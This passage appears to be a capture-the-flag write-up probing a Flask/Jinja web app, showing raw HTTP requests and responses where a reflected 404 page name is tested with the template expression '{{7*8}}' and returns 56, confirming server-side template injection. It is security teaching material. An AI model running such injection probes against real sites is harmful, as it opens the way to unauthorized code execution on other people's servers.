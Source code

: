 So it is confirmed from the web page that the site is built using `Flask` and the templating engine being used is `Jinja`.

```
GET /Nehal-Hacks-For-Good HTTP/1.1
Host: 167.172.61.89:30122
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

```html
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 88
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Mon, 31 Jul 2023 19:58:46 GMT


<h1>Error 404</h1>
<p>The page '<str>Nehal-Hacks-For-Good</str>' could not be found</p>
```

Also, we can see that if we request to an arbitrary endpoint, the endpoint name is getting reflected back.

So in that case, if the name of the endpoint is not sanitised and getting passed to the Jinja template, we can find a SSTI here.

```
GET /{ {7*8} } HTTP/1.1
Host: 167.172.61.89:30122
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

```html
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 70
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Mon, 31 Jul 2023 20:01:05 GMT


<h1>Error 404</h1>
<p>The page '<str>56</str>' could not be found</p>
```
